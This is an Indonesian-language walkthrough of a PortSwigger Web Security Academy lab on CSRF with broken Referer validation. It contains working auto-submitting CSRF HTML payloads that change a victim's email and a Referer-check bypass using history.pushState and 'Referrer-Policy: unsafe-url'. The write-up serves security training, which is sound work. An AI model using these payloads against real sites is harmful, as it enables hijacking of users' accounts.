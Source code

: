 # CSRF dengan Validasi Referer yang Rusak

Fungsi perubahan email pada lab ini rentan terhadap CSRF. Sistem mencoba mendeteksi dan memblokir permintaan lintas domain, tetapi mekanisme deteksi tersebut dapat dilewati.

Untuk menyelesaikan lab ini, gunakan server exploit Anda untuk meng-host halaman HTML yang menggunakan serangan CSRF untuk mengubah alamat email pengguna yang melihat halaman tersebut.

Anda dapat masuk ke akun Anda sendiri menggunakan kredensial berikut: **wiener:peter**

**Hint:** Anda tidak dapat mendaftarkan alamat email yang sudah digunakan oleh pengguna lain. Jika Anda mengubah alamat email Anda sendiri saat menguji exploit Anda, pastikan Anda menggunakan alamat email yang berbeda untuk exploit akhir yang akan Anda kirimkan kepada korban.

---------------------------------------------

**Referensi:**

- [Bypassing Referer-based Defenses pada CSRF](https://portswigger.net/web-security/csrf/bypassing-referer-based-defenses)

![img](images/CSRF%20with%20broken%20Referer%20validation/1.png)

---------------------------------------------

Ada fungsi untuk memperbarui email:

![img](images/CSRF%20with%20broken%20Referer%20validation/2.png)

Ini adalah permintaan POST:

![img](images/CSRF%20with%20broken%20Referer%20validation/3.png)

Ini adalah CSRF PoC:

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0a2c007d0457217b8686cbaf0006004c.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="test&#64;test&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

Ketika dibuka, halaman ini mengembalikan error berikut:

![img](images/CSRF%20with%20broken%20Referer%20validation/4.png)

Ini karena header HTTP “Referer” berisi domain dari server exploit:

![img](images/CSRF%20with%20broken%20Referer%20validation/5.png)

Namun kita dapat mengubah domain Referer ke apa saja asalkan domain tersebut termasuk dalam nilai tersebut:

```
http://attacker-website.com/csrf-attack?0a2c007d0457217b8686cbaf0006004c.web-security-academy.net/
```

![img](images/CSRF%20with%20broken%20Referer%20validation/6.png)

Perlu memperbarui “history.pushState” dalam CSRF PoC dan menambahkan domain yang rentan sebagai parameter URL:

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0a2c007d0457217b8686cbaf0006004c.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="test3&#64;test&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/?0a2c007d0457217b8686cbaf0006004c.web-security-academy.net');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

![img](images/CSRF%20with%20broken%20Referer%20validation/7.png)

Dan juga perlu mengirimkan nilai “Referrer-Policy” dengan nilai “unsafe-url” di bagian Head untuk mengirimkan seluruh URL dalam header Referer:

```
Referrer-Policy: unsafe-url
```

![img](images/CSRF%20with%20broken%20Referer%20validation/8.png)

---
